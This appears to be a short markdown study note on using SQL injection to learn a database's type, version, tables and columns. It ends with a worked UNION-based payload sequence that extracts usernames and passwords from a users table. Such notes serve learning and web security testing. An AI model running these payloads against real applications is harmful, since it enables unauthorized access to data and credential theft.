 # Examin Database with SQL injection attacks

With SQL injection you can guess information about the database:

- The type and version of the database software.
- The tables and columns that the database contains.

### Table of content

- [Version](#version)
- [Content of the database]()

## Version

Database | Type | Query
--- | ---
Microsoft, MySQL | `SELECT @@version`
Oracle | `SELECT * FROM v$version`
PostgreSQL | `SELECT version()`

For example, you could use a UNION attack with the following input:

`' UNION SELECT @@version--`

## Content of the database

Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

:warning: database contents aren't call with the same Queries:

```sql
-- Oracle
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

-- Mircosof
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

-- PostgreSQL
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

-- MySQL
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

```sql
SELECT * FROM information_schema.tables
```

This returns output like the following:

```sql
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

```sql
This returns output like the following:

TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

Exemple:

```sql
' UNION SELECT 'a', 'a' -- return -> 200 OK
' UNION SELECT table_name, NULL FROM information_schema.tables--
```

Found users_abcdef table interting:

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_abcdef'--
```

Found column username_abcdef, password_abcdef

```sql
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```

---

[**:arrow_right_hook: Back home**](/README.md)

